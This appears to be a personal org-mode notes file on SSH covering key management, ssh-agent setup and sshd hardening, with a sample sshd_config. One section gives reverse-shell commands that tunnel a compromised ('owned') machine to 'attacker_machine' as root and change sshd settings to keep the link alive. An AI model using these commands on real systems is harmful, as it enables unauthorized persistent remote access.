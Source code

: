 #+TAGS: ssh remote_access ssh-copy-id ssh-agent ssh-add ssh-keygen sshd


* ssh
* Files
/etc/ssh/ssh_config             - the config file for the ssh client
/etc/ssh/sshd_config            - the config file for the ssh daemon
/home/user/.ssh/authorized_keys - this holds remote hosts public keys
/home/user/.ssh/config          - this is a way to save host configs
/home/user/.ssh/known_hosts     - this file holds hashes for all known hosts, hosts that we have previously connected to and authorize that we trust them to be the correct machine.
/home/user/.ssh/id_rsa          - this is the default private key, it needs privs of 600
/home/user/.ssh/id_rsa.pub      - this is the public key and should have privs of 644

* Cmds
- keychain  - this provides a fronted to ssh-agent and helps if you are using multiple keys
- ssh-xfer  - this provides an in channel download solution (but only from the remote machine)
*** ssh-copy-id
#+BEGIN_SRC sh
ssh-copy-id crito@192.168.0.5
#+END_SRC
You will be prompted for your password, if no ssh key configured
*** ssh-agent
To enable the ssh-agent
#+BEGIN_SRC sh
eval $(ssh-agent)
#+END_SRC

*** ssh-add
#+BEGIN_SRC sh
ssh-add ~/.ssh/git_eurus
#+END_SRC
*** ssh-keygen
*** ssh-copy-id
ssh-copy-id uses the SSH protocol to connect to the target host and upload the SSH user key. The command edits the authorized_keys file on the server. It creates the .ssh directory if it doesn't exist. It creates the authorized keys file if it doesn't exist. Effectively, ssh key copied to server.

It also checks if the key already exists on the server. Unless the -f option is given, each key is only added to the authorized keys file once.

It further ensures that the key files have appropriate permissions. Generally, the user's home directory or any file or directory containing keys files should not be writable by anyone else. Otherwise someone else could add new authorized keys for the user and gain access. Private key files should not be readable by anyone else.

* Description
* Usage
** ssh Key Generation
#+BEGIN_SRC sh
ssh-keygen
#+END_SRC
This will then prompt for a name for the new key

** Check an ssh keys password
#+BEGIN_SRC sh
eval $(ssh-agent)
ssh-add .ssh/id_rsa
#+END_SRC
If this key has a passphrase you will be challenged. 
To unload the key
#+BEGIN_SRC sh
ssh-add -d .ssh/id_rsa
#+END_SRC
** Generate public key from private key
#+BEGIN_SRC sh
ssh-keygen -y -f .ssh/private_key > .ssh/private_key.public
#+END_SRC

** Enable key only auth
- this will allow only key auth, no password auth
#+BEGIN_EXAMPLE
PasswordAuthentication no
#+END_EXAMPLE
this is the only variable that needs to be changed

** Secure Configuration
*** Network Options
Port 5000 - not usign the default port(22) can avoid common runs agains this port. Sometimes this is not a good idea due to certain application expecting the standard port, this should be considered.

AddressFamily inet - this only allows traffic over ipv4 not ipv6.

ListenAddress 192.168.1.0 - this will mean that the service will only listen on the local network 192.168.1.0, and not be accessable from the internet. ListenAddress 0.0.0.0 will allow the service to be accessed from all addresses.

Protocol 2 - this will only allow protocol 2 to be used, protcol 1 has known weaknesses that can allow exploitation of the service. 

X11Forwarding no - A prefered method for VNC is to tunnel it over ssh, this my be required for certain applications.

TCPKeepalive no - These are sent outside of the encrypted channel and can be spoofed, ClientAliveInterval is encrypted and is unspoofable so works as an alternative.

ClientAliveInterval 60 - secure alternative to TCPKeepalive.

ClientAliveCountMax 3 - The number of attempts that the sshd will illicit a response from the ssh client before disconnecting. Unresponsive ssh client will be disconnected after 3 minutes.

*** Key Configuration
HostKey /etc/ssh/ssh_host_rsa_key - these are the default host key locations
HostKey /etc/ssh/ssh_host_dsa_key

UsePrivilegeSeparation yes - this option splits up server processors in an attempt to prevent privilege escalation

PubkeyAuthentication yes - Use public key authentication for access. Using this option in conjunction with PasswordAuthentication no, means only uses with correct key can access the server.

AuthorizedKeysFile %h/.ssh/authorized_keys - this is the location that remote hosts public keys are kept who will have access.

*** Authentication

AllowUsers user_one user_two - White list the users that can login to the server, this is a space seperated list.

LoginGraceTime 60 - this provides a 60 second window to login to the system when prompted

PermitRootLogin no - Disable root logins completely, not save practice to be login to a server as root, use sudo or wheel group once logged in.

StrictModes yes - this forces the correct permissions of key files, must not be writable by anyone but the owner.

IgnoreRhosts yes - Ignore Rhosts authentication for .rhosts and .shorts files in RhostsRSAAuthentication or HostbasedAuthentication /etc/hosts.equiv is still used if the the HostBasedAuthentication option is not disabled.

HostBasedAuthentication no - Decides if rhosts or /etc/hosts.equiv and a public key is are allowed (host-based authentication.

IgnoreUserKnownHosts yes - This determines if the ~/.ssh/known_hosts file is to be ignored. When accessing multiple boxes on the same ip.

PermitEmptyPasswords no - Password is required for access. In this configuration a key is required.

ChallengeResponseAuthentication no - This is not required as wee aren't using login or password authentication.

PasswordAuthentication no - With this disabled a key is required to login to the server.

UsePAM no - not needed as we aren't using password authentication.

UseLogin no - as priviliege seperation is used login isn't required.

SyslogFacility AUTH - log sshd messages to the AUTH syslog facility, which stores its messages in /var/log/auth.log 
#+BEGIN_SRC sh
grep sshd /var/log/auth.log
#+END_SRC

LogLevel INFO - Defines verbosity of login. Available options SILENT, QUIET, FATAL, ERROR, INFO, VERBOSE, DEBUG, DEBUG2 and DEBUG3. INFO is default

PrintLastLog yes - When user logs in print the last login time. Good option for unauthorized access analysis.

MaxAuthTries 2 - This is the number of attemps that can be tried per connection. Failures are logged after half the number is reached.

Banner /etc/issue.net - this is the banner that greets a user at login

*** configuration
#+BEGIN_EXAMPLE
# user modified sshd_config
# See the sshd(8) manpage for details

#### Networking options ####

# Listen on a non-standard port > 1024
Port 50000

# Restrict to IPv4. inet = IPv4, inet6 = IPv6, any = both 
AddressFamily inet

# Listen only on the internal network address
ListenAddress 192.168.1.0

# Only use protocol version 2
Protocol 2

# Disable XForwarding unless you need it
X11Forwarding no

# Disable TCPKeepAlive and use ClientAliveInterval instead to prevent TCP Spoofing attacks
TCPKeepAlive no
ClientAliveInterval 600
ClientAliveCountMax 3

#### Networking options ####


#### Key Configuration ####

# HostKeys for protocol version 2
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_dsa_key

#Privilege Separation is turned on for security
UsePrivilegeSeparation yes

# Use public key authentication
PubkeyAuthentication yes
AuthorizedKeysFile      %h/.ssh/authorized_keys

# Disable black listed key usage (update your keys!)
PermitBlacklistedKeys no

#### Key Configuration ####


#### Authentication ####

# Whitelist allowed users
AllowUsers user1 user2

# one minute to enter your key passphrase
LoginGraceTime 60

# No root login
PermitRootLogin no

# Force permissions checks on keyfiles and directories
StrictModes yes

# Don't read the user's ~/.rhosts and ~/.shosts files
IgnoreRhosts yes

# similar for protocol version 2
HostbasedAuthentication no

# Don't trust ~/.ssh/known_hosts for RhostsRSAAuthentication
IgnoreUserKnownHosts yes

# To enable empty passwords, change to yes (NOT RECOMMENDED)
PermitEmptyPasswords no

# Disable challenge and response auth. Unessisary when using keys
ChallengeResponseAuthentication no

# Disable the use of passwords completly, only use public/private keys
PasswordAuthentication no

# Using keys, no need for PAM. Also allows SSHD to be run as a non-root user
UsePAM no

# Don't use login(1)
UseLogin no

#### Authentication ####


#### Misc ####

# Logging
SyslogFacility AUTH
LogLevel INFO

# Print the last time the user logged in
PrintLastLog yes

MaxAuthTries 2

MaxStartups 10:30:60

# Display login banner
Banner /etc/issue.net

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

Subsystem sftp /usr/lib/openssh/sftp-server

#### Misc ####
#+END_EXAMPLE

** Copy new public key to remote server
- this will assume that you are connecting to a user with the same username as you
#+BEGIN_SRC sh
ssh-copy-id 78.87.56.34
#+END_SRC

- here we are specifiying which user we would like to sort the key under
#+BEGIN_SRC sh
ssh-copy-id frank@78.87.56.34
#+END_SRC

** ssh-agent
- Using ssh-agent with multiple keys can cause problems when login into many servers.
  - Each key is considered an attempt, so if a limit is set then you can end up locked out.

- If GDM is used ssh-agent is started automatically
  - to start automatically with other desktop managers
    ~/.xsession
    #+BEGIN_EXAMPLE
    ssh-agent gnome-session
    #+END_EXAMPLE
    substituting gnome with the window manger in use
    
- keychain
  - this is a front-end to ssh-agent
  - to have this start on login
    ~/.bash_profile
    #+BEGIN_EXAMPLE
    #!/bin/bash
    /usr/bin/keychain ~/.ssh/id_rsa ~/.ssh/id_dsa ~/.ssh/root_key > /dev/null
    source ~/.keychain/hostname-sh
    #+END_EXAMPLE
    hostname should correspond with the machines hostname
  
** Setting up ssh-agent as a sysd service
#+BEGIN_EXAMPLE
[Unit]
Description=SSH key agent

[Service]
Type=forking
Environment=SSH_AUTH_SOCK=%t/ssh-agent.socket
ExecStart=/usr/bin/ssh-agent -a $SSH_AUTH_SOCK

[Install]
WantedBy=default.target
#+END_EXAMPLE

** Adding to zshrc
- add this line to .zshrc
#+BEGIN_EXAMPLE
export SSH_AUTH_SOCK="$XDG_RUNTIME_DIR/ssh-agent.socket"
#+END_EXAMPLE
** add key/identity
#+BEGIN_SRC sh
ssh-add $KEY
#+END_SRC

** Check what identities are currently set
#+BEGIN_SRC sh
ssh-add -l
#+END_SRC

** remove key/identity
#+BEGIN_SRC sh
ssh-add -d $KEY
#+END_SRC

** remove all keys/identities
#+BEGIN_SRC sh
ssh-add -D
#+END_SRC

** Changing SSH port

vi /etc/ssh/sshd\_config

change port to 22 (or any other number) or add another line to add
another port

service sshd reload
** Disable root login
#+BEGIN_EXAMPLE
PermitRootLogin no
#+END_EXAMPLE
** Only allow ssh protocol v2
#+BEGIN_EXAMPLE
Protocol 2
#+END_EXAMPLE
** Create a reverse shell
- this would only provide one step away from the target machine
#+BEGIN_SRC sh
ssh -R 1337:localhost:22 root@attacker_machine
#+END_SRC
the cmd connects the owned box to the attacker's machine using port 1337

- using a machine between attacker and target
#+BEGIN_SRC sh
ssh -L 31337:localhost:1337 -f -N -g root@attacker_machine
#+END_SRC
now the the attacker connects from another machine to 31337 and is connected to the owned machine

- the owned machine would quickly timeout if the sshd_config hasn't been edited
#+BEGIN_EXAMPLE
TCPKeepAlive yes
ClientAliveInterval 30
ClientAliveCountMax 99999
#+END_EXAMPLE

** Execute cmds on remote machine
#+BEGIN_SRC sh
ssh user@54.165.122.155 ls
#+END_SRC
this will return the ls of the users home directory, this can be handy for executing a script without connecting

** Kerberos
- these need to set in /etc/ssh/sshd_config
#+BEGIN_EXAMPLE
KerberosAuthentication yes
KerberosOrLocalPasswd yes
GSSAPIAuthentication yes

#+END_EXAMPLE
** Configure Key-Based Authentication
- install the required packages
RHEL7
#+BEGIN_SRC sh
yum install openssl
#+END_SRC
RHEL6
#+BEGIN_SRC sh
yum install openssl-server
#+END_SRC

- generate ssh key
#+BEGIN_SRC sh
ssh-keygen
#+END_SRC
this will prompt you for a location and passphrase

- copy ssh key to remote server
#+BEGIN_SRC sh
ssh-copy-id user@alickmitchell2.mylabserver.com
#+END_SRC
you will be prompted for user's password, then will copy the file to ~/.ssh/ on the remote server

** Setting the Banner
- edit /etc/issue.net
#+BEGIN_EXAMPLE
This is the sshd banner
#+END_EXAMPLE

- to enalbe edit the sshd_config
/etc/ssh/sshd_config
#+BEGIN_EXAMPLE
Banner /etc/issue.net
#+END_EXAMPLE
on may distros this disabled by default

- for it to take effect the service needs to be restarted
#+BEGIN_SRC sh
systemctl restart sshd
#+END_SRC

* Lecture
* Tutorial
** Linux Academy - Server Application Requires a Secure SSH connection
Guide: [[file://home/crito/Documents/Linux/Labs/secure-ssh-lab.pdf][SSH connection]] 

* Books
* Links
[[https://www.slac.stanford.edu/comp/unix/sshGSSAPI.html][Using SSH and GSSAPI Authentication]]
